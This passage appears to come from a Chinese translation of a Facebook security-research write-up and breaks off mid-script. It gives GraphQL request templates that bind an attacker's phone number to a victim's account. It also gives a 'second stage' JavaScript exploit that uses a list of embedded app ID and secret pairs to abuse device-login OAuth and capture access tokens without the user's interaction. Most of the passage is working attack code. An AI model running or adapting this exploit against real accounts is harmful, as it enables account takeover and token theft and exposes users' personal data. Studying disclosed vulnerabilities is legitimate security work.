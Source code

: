
## 补充：

https:// graph.facebook.com/graphql?access_token=FIRST_PARTY&amp;doc_id=10153582085883380&amp;variables`{`“input”:`{`“client_mutation_id”:1,”actor_id”:”VICTIM_USER_ID”,”phone_number”:”ATTACKER_PHONE”`}``}`&amp;method=POST



## 确认：

https:// graph.facebook.com/graphql?access_token=FIRST_PARTY&amp;doc_id=10153582085808380&amp;variables`{`“input”:`{`“client_mutation_id”:1,”actor_id”:”VICTIM_USER_ID”,”confirmation_code”:”RECEIVED_CONFIRMATION_CODE”`}``}`&amp;method=POST

第二阶段的脚本将尝试获得一个从使用 Facebook 设备登录的 Facebook 应用中生成的 access_token。下面代码中进行了不止一次的尝试，因为如果用户之前没有使用过此类应用的话，他/她会被要求先对其进行授权。我们对所有的应用都进行了尝试，以确保用户在不参与交互的情况下实现对该应用的授权：

```
&lt;html&gt;
 &lt;body&gt;
 &lt; script&gt;
 keys = ["1348564698517390|007c0a9101b9e1c8ffab727666805038",
 "972631359479220|4122f9182c57154d89cab3cbb62259db",
 "155327495133707|a151725bc9b8808a800f4c891505e558",
 "1331685116912965|e334a1eca4d4ea9ac0c0132a31730663",
 "867777633323150|446fdcd4a3704f64e5f6e5fd12d35d01",
 "437340816620806|04a36c2558cde98e185d7f4f701e4d94",
 "661587963994814|ffe07cc864fd1dc8fe386229dcb7a05e",
 "1692575501067666|3168904bd42ebb12bf981327de99179f",
 "522404077880990|f4b8e52fea9ccae9793e11b66cca3ae0",
 "233936543368280|b5790a8768f5fd987220d34341a8f1d8",
 "1174099472704185|0722a7d5b5a4ac06b11450f7114eb2e9",
 "628551730674460|b9693d3e013cfb23ec2c772783d14ce8",
 "1664853620493280|786621f3867f7ab1bfc0ff9d616803fc",
 "521501484690599|3153679748f276e17ffe16c3f3a06b14"];
 token = "";
 if (window.location.hash) `{`
 crowd_token = window.location.hash.split("=")[1];
 start_attack(null, keys.shift());
 `}`
 async function second_stage(wind, user_code, retrieve, key)`{`
     fetch("https://graph.facebook.com/graphql?access_token=" +crowd_token.toString() + '&amp;variables=`{`"userCode":"' + user_code + '"`}`&amp;server_timestamps=true&amp;doc_id=2024649757631908',`{`method:"POST", mode:"cors" ,credentials:"omit"`}`).then(response =&gt; response.json()).then(function(data)`{`
         if(data.data.device_request.device_record.nonce)`{`
         nonce = data.data.device_request.device_record.nonce;`}` else `{`nonce = "ignore"`}`;
         app_id = key.split("|")[0];
         wind.location.href = https://m.facebook.com/dialog/oauth/?app_id=$`{`app_id`}`&amp;redirect_uri=https%3A%2F%2Fm.facebook.com%2Fdevice%2Flogged_in%2F%3Fuser_code%3D$`{`user_code`}`%26nonce%3D$`{`nonce`}`%26is_preset_code%3D0&amp;ref=DeviceAuth&amp;nonce=$`{`nonce`}`&amp;user_code=$`{`user_code`}`&amp;auth_type=rerequest&amp;scope=public_profile&amp;qr=0&amp;_rdr;
 `}`); setTimeout(function()`{`     fetch("https://graph.facebook.com/v2.6/device/login_status?access_token=" + key + "&amp;code=" + retrieve + "&amp;locale=en_US&amp;method=post",`{`method:"POST", mode:"cors" ,credentials:"omit"`}`).then(response =&gt; response.json()).then(function(data)`{`if(data.access_token)`{`alert(data.access_token);`}` else if(!keys.length == 0)`{`start_attack(wind, keys.shift())`}` `}`)  `}`,7000)
 `}`
 function start_attack(wind, key)`{`
     if (!wind)`{`
     wind = window.open("about:blank");`}`
     fetch("https://graph.facebook.com/v2.6/device/login?access_token=" + key ,`{`method:"POST", mode:"cors" ,credentials:"omit"`}`).then(response =&gt; response.json()).then(function(data)`{`
     USER_CODE = data.user_code;
```